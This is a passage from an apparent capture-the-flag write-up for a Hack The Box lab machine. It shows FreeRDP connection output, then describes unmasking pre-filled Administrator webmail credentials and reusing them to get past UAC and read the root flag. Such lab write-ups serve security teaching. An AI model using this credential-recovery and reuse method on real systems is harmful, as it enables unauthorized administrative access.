Certificate details for 10.10.11.241:3389 (RDP-Server):
        Common Name: DC.hospital.htb
        Subject:     CN = DC.hospital.htb
        Issuer:      CN = DC.hospital.htb
        Thumbprint:  1c:6f:02:73:27:6f:20:23:81:1c:27:42:6f:6a:60:66:b6:f7:20:09:01:d8:8d:bb:0c:05:37:82:d9:7c:87:13
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
Password:
[18:28:23:306] [1385:1386] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[18:28:23:306] [1385:1386] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[18:28:23:368] [1385:1386] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[18:28:23:369] [1385:1386] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
```


Interesting the Webmail is opened with pre-filled Administrator credentials. If we peek through clicking the eye symbol we get the Administrator password.


Browsing through the explorer we get to the Administrator folder.


Clicking on it we will raise Administrator login by User Account Control.


Using the previous Administrator password we successfully reach inside Administrator folder. And we find the file with root flag on the Administrator Desktop.


Double click and enjoy.
